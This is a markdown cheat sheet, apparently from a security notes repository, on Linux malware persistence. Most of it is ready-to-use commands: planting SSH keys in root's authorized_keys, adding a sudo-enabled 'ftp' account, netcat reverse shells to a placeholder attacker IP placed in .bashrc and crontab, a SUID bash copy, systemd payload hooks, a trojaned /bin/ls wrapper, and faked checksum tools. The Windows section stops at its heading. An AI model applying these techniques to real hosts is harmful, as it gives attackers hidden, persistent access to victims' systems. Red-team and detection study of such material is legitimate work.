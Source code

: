 ```yaml
---
title: Persistence techniques
description: How malwares persist in the victim host.
---
```


# Malware persistence techniques

## Linux

> [PDF - Linux Red Team Persistence Techniques](https://papers.vx-underground.org/papers/Linux/Persistence/Linux%20Red%20Team%20Persistence%20Techniques.pdf)
>
> [PDF - My Methods To Achieve Persistence In Linux Systems](https://papers.vx-underground.org/papers/Linux/Persistence/My%20Methods%20to%20Achieve%20Persistence%20in%20Linux%20Systems.pdf)
>
> [PDF - Understanding Linux Malware](https://reyammer.io/publications/2018_oakland_linuxmalware.pdf)

### SSH Key

```
echo <public_key> >> /root/.ssh/authorized_keys
echo <public_key> >> /home/<user>/.ssh/authorized_keys
```

### Add new account

```
useradd -m -s /bin/bash ftp
usermod -aG sudo ftp
passwd ftp
```

### Shell configuration backdoor

- `.bashrc` : Executed every time a user starts up a fresh terminal session in interactive mode.
- `.bash_profile` : Executed every time a user logs into a system. 

Example :

```
echo 'nc -e /bin/bash <IP> <PORT> 2>/dev/null &' >> ~/.bashrc
```

### Exposed services backdoor

- webshell

### Cronjobs

```
$ crontab -e
* * * * * nc <IP> <PORT> -e /bin/sh
```

```
/etc/cron.hourly/
/etc/crontab
/etc/cron.daily/
```

### Local privesc

```
cp /bin/bash /bin/sys
chmod u+s /bin/sys
/bin/sys -p
```

### System services / boot scripts

**systemd**

```
[Service]
Type=simple
ExecStartPre=<PAYLOAD>
...
```

**rc script**

```
/etc/rc.d/rc.local
/etc/rc.conf
/etc/init.d/
/etc/rcX.d/
/etc/rc.local
```

### X desktop autostart

- `~/.config/autostart`

### File replacement / infection

`ls` backdoor :

```
$ mv /bin/ls /bin/ls2
$ cat ls
#!/bin/bash

PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/sbin

<BACKDOOR>
/bin/ls2 "$@"
$ chmod a+x ./ls
$ mv ./ls /bin/ls
```

`md5sum`, `sha256sum`, `*sum` backdoor that returns good hashes for backdoored binaries.

```
$ md5sum /bin/ls
b9dcdfcaea8082f5f5879086fdf7f2e2  /bin/ls
$ sha256sum /bin/ls
f48db5b77c6fddb35548fb86c6e279e5d18c55d2d4ff9adae66a2d582187e7c7  /bin/ls
```

## Windows

### Registry keys RUN

